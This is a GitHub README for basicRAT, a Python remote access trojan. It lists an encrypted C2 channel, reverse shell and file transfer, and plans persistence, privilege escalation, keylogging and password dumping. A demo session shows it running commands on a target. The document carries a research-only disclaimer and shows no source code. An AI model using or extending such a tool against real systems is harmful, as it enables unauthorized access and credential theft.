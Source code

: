 # basicRAT

This is a Python RAT (Remote Access Trojan). I created this to maintain a clean design Python RAT with standard features. Currently a work in progress and still being hacked on.

**Disclaimer: This RAT is for research purposes only, and should only be used on authorized systems. Accessing a computer system or network without authorization or explicit permission is illegal.**

## Features
* Cross-platform
* AES CBC Encrypted C2
* Reverse Shell
* File upload/download

## Todo
* Client binary generation tool (cross-platform)
  * Pyinstaller
  * Switch options for remote IP, port, crypto, key, protocol, etc
* Persistance (cross-platform)
  * Windows: Registry keys, WMIC, Startup Dir
  * Linux: Cron jobs, services, modprobe
* Additional Crypto
* Common C2 Protocols (HTTP, DNS)
* Privilege Escalation (getsystem-esque, dirty cow)
* Screenshot
* Keylogger
* Accept connection from multiple clients
* Toolkit (wget, unrar, unzip, )
* Scanning utility
* Password dumping (mimikatz / gsecdump)
* Tunneling

## Usage
```
$ python basicRAT_server.py --crypto AES --port 1337

  ____    ____  _____ ____   __  ____    ____  ______      .  ,
 |    \  /    |/ ___/|    | /  ]|    \  /    ||      |    (\;/)
 |  o  )|  o  (   \_  |  | /  / |  D  )|  o  ||      |   oo   \//,        _
 |     ||     |\__  | |  |/  /  |    / |     ||_|  |_| ,/_;~      \,     / '
 |  O  ||  _  |/  \ | |  /   \_ |    \ |  _  |  |  |   "'    (  (   \    !
 |     ||  |  |\    | |  \     ||  .  \|  |  |  |  |         //  \   |__.'
 |_____||__|__| \___||____\____||__|\_||__|__|  |__|       '~  '~----''
          https://github.com/vesche/basicRAT

basicRAT server listening on port 1337...

basicRAT> help

download <file> - Download a file.
help            - Show this help menu.
run <command>   - Execute a command on the target.
upload <file>   - Upload a file.
quit            - Gracefully kill client and server.

basicRAT> run uname -a
Linux sandbox3 4.7.6-1-ARCH #1 SMP PREEMPT Fri Sep 30 19:28:42 CEST 2016 x86_64 GNU/Linux
```

## Notes
* Binaries can created using [PyInstaller](http://www.pyinstaller.org/).
* Key was generated with `binascii.hexlify(os.urandom(16))`

## Other open-source Python RATs for Reference
* [ahhh/Reverse_DNS_Shell](https://github.com/ahhh/Reverse_DNS_Shell)
* [sweetsoftware/Ares](https://github.com/sweetsoftware/Ares)
